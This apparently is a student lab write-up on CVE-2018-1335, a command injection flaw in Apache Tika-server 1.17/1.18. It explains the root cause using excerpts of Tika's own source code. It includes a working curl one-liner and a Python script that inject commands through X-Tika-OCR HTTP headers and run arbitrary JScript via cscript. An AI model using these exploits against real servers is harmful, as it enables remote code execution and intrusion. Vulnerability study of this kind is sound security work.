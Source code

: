 # PS
- Bug Overview: This bug leads to command injection vulnerability in Apache Tika -server 1.18 and uses Cscript.exe to execute Jscript or VBS code and run arbitrary commands.
- Aim: Write a working exploit for this CVE by which you can achieve RCE on the local VM.
- Install vulnerable service in a VM and ensure to meet the condition so that you can exploit it.
- Run your exploit on the vulnerable service and make a video of it.
- Write a brief report about this bug including your exploit code and link for exploit and Video proof.

# Environmental Setup
Download the vulnerable version of the tika-sever at https://archive.apache.org/dist/tika/tika-server-1.17.jar and start the server.  
```
java -jar tika-server-1.17.jar
```

# Exploit Code
## Exploit-1: Command Execution
```
curl -T file_example_TIFF_1MB.tiff http://localhost:9998/meta --header "X-Tika-OCRTesseractPath: \"calc.exe\""  
```

## Exploit-2: JScript Execution
``` python 
#!/usr/bin/env python  

import sys 
import requests

host = sys.argv[1]
port = sys.argv[2]
cmd = sys.argv[3]

url = host+":"+str(port)+"/meta"

headers = {"X-Tika-OCRTesseractPath": "\"cscript\"", 
		"X-Tika-OCRLanguage": "//E:Jscript", 
		"Expect": "100-continue", 
		"Content-type": "image/jp2", 
		"Connection": "close"}

jscript='''var shellObj = WScript.CreateObject("WScript.Shell");
var execCmd = shellObj.Exec('cmd /c {}');'''.format(cmd)

try:
	requests.put("https://"+url, headers=headers, data=jscript, verify=False)
except:
	try:
		requests.put("http://"+url, headers=headers, data=jscript)
	except:
		print "Something went wrong."
```

# Explanation: 
## Exploit-1
The vulnerability is of command injection at tika-server and the entry point of the vulnerability is the HTTP headers. The tika-server code handles the HTTP request by checking the header prefix. In case of HTTP request with **"X-Tika-OCR" prefix**, the server code invokes **processHeaderConfig()** function which parses the HTTP request and constructs the **TesseractOCRConfig** object. The **doOCR()** function then uses the TesseractOCRConfig object to construct the command for **ProcessBuilder**. However, the doOCR() function while constructing the command appends the **OCRTesseractPath (i.e. calc.exe)** with **tesseract.exe**. The resultant command looks like *"calc.exe"tesseract.exe ..."*. But since Windows ignores whatever is appened to it after the quotes, we are able to execute just our injected command calc.exe.  

The command constructed by the doOCR() function is as follows.  
*"calc.exe"tesseract.exe <input.tmp> <output.tmp> -l eng -psm 1 txt -c preserve_interword_spaces=0*  
This is exploited in Exploit-1 code.

## Exploit-2
The first temp file passed to the command is the input file uploaded. Thus we could fill the input file with some code and have it executed. However, the problem is the extension of the file is **".tmp"**. Also, uploading an image file with some code would due to verification of the **magic bytes** of the image. The work around is to use **Cscript** that takes the first argument as the script and allows to use **"//E:engine" flag** to specify the script engine so that the file extension does not matter. Also, setting the content type to **"image/jp2"** forces the tika-sever not to verify the magic bytes in the image. This allows an image file containing JScript/VBScript to be uploaded and executed on the server.  

The new command would now look like  
*"cscript.exe"tesseract.exe <input.tmp> <output.tmp> -l //E:Jscript -psm 1 txt -c preserve_interword_spaces=0*  
This is exploited in Exploit-2 code.

# Server Code Snippets
**TikaResource.java** - https://github.com/apache/tika/blob/86e997510b44f12dc9f90a68aaf583d5d3912892/tikaserver/src/main/java/org/apache/tika/server/resource/TikaResource.java

``` java

public static final String X_TIKA_OCR_HEADER_PREFIX = "X-Tika-OCR"; 	// HTTP header prefix

public static void fillParseContext(ParseContext parseContext, MultivaluedMap<String, String> httpHeaders,
                                        Parser embeddedParser) {
...
	TesseractOCRConfig ocrConfig = null;
	for (String key : httpHeaders.keySet()) {
            if (StringUtils.startsWith(key, X_TIKA_OCR_HEADER_PREFIX)) {
                ocrConfig = (ocrConfig == null) ? new TesseractOCRConfig() : ocrConfig;
                 
                // Parses HTTP headers and constructs TesseractOCRConfig object
                processHeaderConfig(httpHeaders, ocrConfig, key, X_TIKA_OCR_HEADER_PREFIX);	
                
            } else if (StringUtils.startsWith(key, X_TIKA_PDF_HEADER_PREFIX)) {
                pdfParserConfig = (pdfParserConfig == null) ? new PDFParserConfig() : pdfParserConfig;
                processHeaderConfig(httpHeaders, pdfParserConfig, key, X_TIKA_PDF_HEADER_PREFIX);  
            }
        }
```

**TesseractOCRParser.java** - 
https://github.com/apache/tika/blob/86e997510b44f12dc9f90a68aaf583d5d3912892/tika-parsers/src/main/java/org/apache/tika/parser/ocr/TesseractOCRParser.java

``` java
private void parse(TikaInputStream tikaInputStream, File tmpOCROutputFile, ParseContext parseContext,
                       XHTMLContentHandler xhtml, TesseractOCRConfig config)
...
        // Uses TesseractOCRConfig object constructed with processHeaderConfig
        doOCR(tmpFile, tmpOCROutputFile, config);	

private void doOCR(File input, File output, TesseractOCRConfig config) throws IOException, TikaException {

        // Construction of command string using TesseractPath
        ArrayList<String> cmd = new ArrayList<>(Arrays.asList(
                config.getTesseractPath() + getTesseractProg(), input.getPath(),  output.getPath(), "-l",
                config.getLanguage(), "--psm", config.getPageSegMode()
        )); 

	for (Map.Entry<String, String> entry : config.getOtherTesseractConfig().entrySet()) {
            cmd.add("-c");
            cmd.add(entry.getKey() + "=" + entry.getValue());
        }
        cmd.addAll(Arrays.asList(
                "-c", "page_separator=" + config.getPageSeparator(),
                "-c",
                (config.getPreserveInterwordSpacing())? "preserve_interword_spaces=1" : "preserve_interword_spaces=0",
                config.getOutputType().name().toLowerCase(Locale.US)
        ));
        ProcessBuilder pb = new ProcessBuilder(cmd);
        setEnv(config, pb);
        final Process process = pb.start(); // Command execution
```

